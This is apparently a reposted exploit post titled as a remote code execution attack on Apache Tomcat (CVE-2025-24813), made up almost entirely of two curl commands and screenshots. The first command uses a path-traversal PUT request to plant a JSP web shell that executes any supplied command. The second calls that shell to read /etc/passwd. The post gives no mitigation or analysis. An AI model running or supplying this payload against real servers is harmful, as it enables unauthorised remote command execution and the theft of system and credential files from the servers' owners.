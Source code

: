 #  CVE-2025-24813 - Apache Tomcat RCE   
 TtTeam   2025-04-06 21:07  
  
```
curl -X PUT "http://target.com/uploads/../webapps/ROOT/updates.jsp" \
  -H "Content-Type: application/x-jsp" \
  --data-raw '<%@ page import="java.io.*" %>
<html><body>
<form method="GET"><input type="text" name="cmd"><input type="submit" value="Run"></form>
<% if(request.getParameter("cmd") != null) {
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
BufferedReader r = new BufferedReader(new InputStreamReader(p.getInputStream()));
String l; while((l=r.readLine())!=null){ out.println(l+"<br>"); } } %>
</body></html>' -i
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3LtQxju6fbpws2ThqNsLWnYnsSsxibjv3bFeDGEoUf6GDkb7WbCB5SEj7eQWncrKrh9GECpvacmMQ/640?wx_fmt=png&from=appmsg "")  
  
   
```
curl "http://target.com/updates.jsp?cmd=cat/etc/passwd" -i
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB3LtQxju6fbpws2ThqNsLWn9PC5Zk0YBpeUvPeiciaGm5Mog7LRgNOvINC2R5hNNrPF2EU1vDq7V0icw/640?wx_fmt=png&from=appmsg "")  
  
  
